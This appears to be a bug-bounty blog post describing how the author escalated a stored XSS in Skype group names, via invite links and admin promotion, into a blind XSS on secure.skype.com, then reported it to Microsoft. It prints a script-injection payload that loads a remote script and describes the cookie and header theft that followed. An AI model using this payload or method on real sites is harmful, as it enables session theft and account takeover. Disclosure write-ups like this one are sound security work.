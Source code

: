 ```yaml
---
title: "Multiple xss in *.skype.com (2)"
author: "Jayateertha Guruprasad"
date: 2019-04-10T07:11:52.560Z
lastmod: 2024-08-31T13:11:12+05:30
type: "post"
description: ""

subtitle: ""

image: "/post/img/2019-04-10_multiple-xss-in-.skype.com-2_0.png" 
images:
 - "/post/img/2019-04-10_multiple-xss-in-.skype.com-2_0.png"
 - "/post/img/2019-04-10_multiple-xss-in-.skype.com-2_1.png"
 - "/post/img/2019-04-10_multiple-xss-in-.skype.com-2_2.png"
 - "/post/img/2019-04-10_multiple-xss-in-.skype.com-2_3.png"
 - "/post/img/2019-04-10_multiple-xss-in-.skype.com-2_4.png"
 - "/post/img/2019-04-10_multiple-xss-in-.skype.com-2_5.png"


aliases:
- "/multiple-xss-in-skype-com-2-18cfed39edbd"

---
```


> PART 2:

So If you have read the part 1, You would have seen that I found a stored-self Xss in manager.skype.com which was getting escalated in the option("make the USER as admin of group_name") as group_name was not properly sanitized there.

Here’s what I did to affect other users,You just need to create a invite link and make a user join your group.

Once ,the user joins your group ,You just need to make him as admin using the option I mentioned earlier.(requires no user interactions once he joins the group)

Once user is made as admin ,He will now see the same option called **("make the USER as admin of group_name"),** where the gropu_name was not sanitized and xss gets executed successfully on the user also!!!

![](/post/img/2019-04-10_multiple-xss-in-.skype.com-2_0.png#layoutTextWidth)

So It all ended???

No, I did more research and put a BXSS payload **```"><script src="malicious_script_url">```** in group_name.

Now add a member by sending the member a invite link.

![](/post/img/2019-04-10_multiple-xss-in-.skype.com-2_1.png#layoutTextWidth)

Once the member clicks the invite link,and accepts it , xss was getting executed in another sub domain too(**secure.skype.com**)!!!

The BXSS payload used was provided by xsshunter ,through which I was able to get user details like

screenshot of affected page,user cookies,headers,device informations,ip address etc!!!

This has hell lot of information ,which is sufficient to compromise user data and also account takeover.

![](/post/img/2019-04-10_multiple-xss-in-.skype.com-2_2.png#layoutTextWidth)![](/post/img/2019-04-10_multiple-xss-in-.skype.com-2_3.png#layoutTextWidth)

Then ,I made a final report combining all my research and sent them (secure@microsoft.com)

Finally ,I was acknowledged by Microsoft at their security researchers acknowledgement page(FEB-2019):

[https://portal.msrc.microsoft.com/en-us/security-guidance/researcher-acknowledgments-online-services](https://portal.msrc.microsoft.com/en-us/security-guidance/researcher-acknowledgments-online-services)

![](/post/img/2019-04-10_multiple-xss-in-.skype.com-2_4.png#layoutTextWidth)![](/post/img/2019-04-10_multiple-xss-in-.skype.com-2_5.png#layoutTextWidth)

#### **Liked my article ? Follow me on** [**LinkedIn**](https://www.linkedin.com/in/jayateerthag/)**, Twitter (**[**@jayateerthaG**](https://twitter.com/jayateerthag)**), and **[**Medium**](https://jayateerthag.medium.com/)** for more content about bugbounty, Infosec, cybersecurity and hacking.**

* * *
Written on April 10, 2019 by Jayateertha Guruprasad.

Originally published on [Medium](https://medium.com/@jayateerthag/multiple-xss-in-skype-com-2-18cfed39edbd)
